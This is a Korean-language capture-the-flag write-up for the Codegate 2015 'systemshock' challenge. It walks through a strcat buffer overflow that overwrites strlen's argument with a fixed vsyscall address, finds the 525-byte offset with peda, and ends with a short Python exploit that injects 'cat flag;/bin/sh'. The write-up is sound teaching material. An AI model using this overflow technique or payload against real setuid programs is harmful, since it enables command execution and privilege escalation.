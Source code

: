 title: Codegate 2015 - systemshock
date: 2015-08-04 21:53:08
author: l34p
tags:
- codegate
- ctf
- writeup
---
200점짜리 문제로, 많은 팀들이 가장먼저 푼 문제입니다. 

문제가 나오고 정말빨리 풀렸는데, 저는 처음에 문제 제목에 현혹되어 [shellshock][shellshock]인줄 알고 헤메느라 시간이 많이 걸렸네요... ㅠㅠ
실제로 당황스럽게도 대회 서버에서 [CVE-2014-6277][CVE-2014-6277]이 먹혔더라죠... ;;

하지만 차분히 생각해보면 [shellshock][shellshock]는 `setuid`가 걸려있는 바이너리안에서 `bash`를 호출해야한다는 점과 환경변수를 필요로 한다는점을 생각해보면 이 문제에서는 [shellshock][shellshock]를 사용할 수 없다는걸 바로 알 수 있습니다.

이걸 생각못해서 날린 시간이 몇시간인지.. 흙흙

여튼, 이 문제는 [shellshock][shellshock]를 이용해서 푸는 문제가 아닌 strcat을 이용한 단순한 오버플로우 문제입니다. 제대로 된 풀이만 바로 떠올리면 정말 빨리 풀 수 있는 문제이지요... 실제로 문제가 나오자마자 엄청 빠른 속도로 풀린 문제이기도 합니다.

그럼 각설하고 풀이로 들어가보도록 하겠습니다!

## 문제환경

![](/img/systemshock1.png)

오호 정확히 `strlen`의 인자로 넣어준 A들이 들어간것을 볼 수 있습니다.

그럼 이제 해야할것은 `argv[1]`의 포인터를 덮어씌우기 위해 앞에 몇개의 A를 넣어줘야하는지와 어떤 값으로 덮어써야할지를 정하면 되겠습니다.

어떤값으로 덮어써야할지는 비어있는 문자열 즉 null이 들어있는 주소로 덮어주면 됩니다. 그러면 strlen의 리턴값이 0이 되고, 입력값 검사를 우회할수 있게 됩니다. 그런데 여기서 또 생각해 줘야할 부분이 서버에는 ASLR이 걸려있어 주소들이 랜덤이고 32비트가 아니라 ulimit -s unlimited 같은 꼼수도 못부립니다 ㅠㅠ.. 하지만! 64비트에도 고정인 주소가 있으니... 바로 그부분은 vsyscall 영역입니다.

![](/img/systemshock2.png)

끝부분에 보이는 

```
0xffffffffff600000    0xffffffffff601000 r-xp      [vsyscall]
```

부분은 ASLR이 걸려있더라도 고정인 주소로 매핑됩니다. 그렇다면 이 vsyscall 영역에 null이 들어있는 주소가있다면?! 그 주소로 strlen의 인자, 즉 argv[1]의 포인터를 덮어씌우면 끝나게 됩니다.

그러면 이제 이 vsyscall 영역에 null문자열이 있는지 한번 찾아봅시다.

![](/img/systemshock3.png)

찾는방법은 여러가지 있겠으나 저는 peda의 searchmem 기능을 이용하여 찾았습니다.
vsyscall 영역에서 null(0x00) 으로 찾으니 꽤 많이 나오는데 이 중에서 값의 중간에 0x00 널값이 포함안되는 값으로 아무거나 하나 정해주면됩니다.

null이 들어가면 안되는 이유는 문제 바이너리를 실행할때 인풋을 argv[1]로 넘겨주는데 이 argv[1]은 중간에 null값이 들어갈 수 없기 때문입니다. ( null 값이 들어가면 null뒤의 값들은 짤립니다.. ㅠㅠ )

여튼 그럼 저는 적당히 0xffffffffff600405 로 골라서 하도록 하겠습니다.

이제 남은일은 앞에 더미값인 A를 몇개나 입력해줘야하는가 인데, 자세히 분석해서 알아낼 수도 있겠지만 대회 특성상 문제를 빨리풀어야하는걸 고려해서 peda의 pattern 명령어를 사용하여 자세히 분석하지 않고도 쉽게 알아낼수 있는 방법을 쓰도록 하겠습니다.

![](/img/systemshock4.png)

pattern create 1024 pattern.txt 를 입력하면 pattern.txt 라는 파일에 1024개의 패턴 문자가 쓰여지게 됩니다.
그리고 실행할때 r `cat pattern.txt` 로 실행을 하면 방금 만든 pattern 값들을 argv[1]로 넘기면서 실행할 수 있습니다.

이렇게 실행을 하면,

![](/img/systemshock5.png)

이렇게 strlen의 인자가 패턴값으로 덮힌것을 알 수 있습니다.

이상태에서 pattern.txt 파일을 열어 ANsA8sAi 의 문자열을 찾아 ( 리틀엔디안이므로 문자열을 뒤집은 것입니다. ) 이 문자열앞의 문자 갯수를 python len 함수같은것을 이용하여 세어봐도 되고, peda의 pattern search 라는 기능을 이용해도 됩니다.

![](/img/systemshock6.png)

pattern search를 해보면 offset이 525로 나오는데 이게 우리가 구할 offset과 일치합니다.

이렇게 offset을 구했으니 "A" 525개 + "B" 8개 를 넣어서 offset이 맞는지 한번 확인해보도록 하겠습니다.

![](/img/systemshock7.png)

strlen에 breakpoint를 걸은후, r `perl -e'print"A"x525, "B"x8'` 로 실행시키면 정확히 strlen의 인자로 BBBBBBBB가 들어가는것을 볼 수 있습니다.

그럼 이제 BBBBBBBB 부분 대신에 아까 구해준 null이 들어있는 주소,  0xffffffffff600405 으로 대신 넣어주고 "A"525개에 A만 넣는게 아니라 실행시킬 명령어도 포함시켜 주면 입력값 검사를 안받게되고 임의의 명령어를 실행시킬수 있게 됩니다.

## Exploit Code

```python
# exploit.py
# ./shock "`cat payload`"
from struct import pack

f = open("payload", "w")

null_addr=0xffffffffff600405
cmd="HACKED;cat flag;/bin/sh;#"

payload = cmd + "A"*(525-len(cmd))
payload+= pack("<Q", null_addr)

f.write(payload)
f.close()
```

![](/img/systemshock8.png)

궁금한부분이 있거나 수정할 부분이 있으면 언제든 말해주세요!

작성자: [l34p](https://github.com/L34p/)

[CVE-2014-6277]: https://en.wikipedia.org/wiki/Shellshock_(software_bug)#CVE-2014-6277
[shellshock]: https://en.wikipedia.org/wiki/Shellshock_(software_bug)
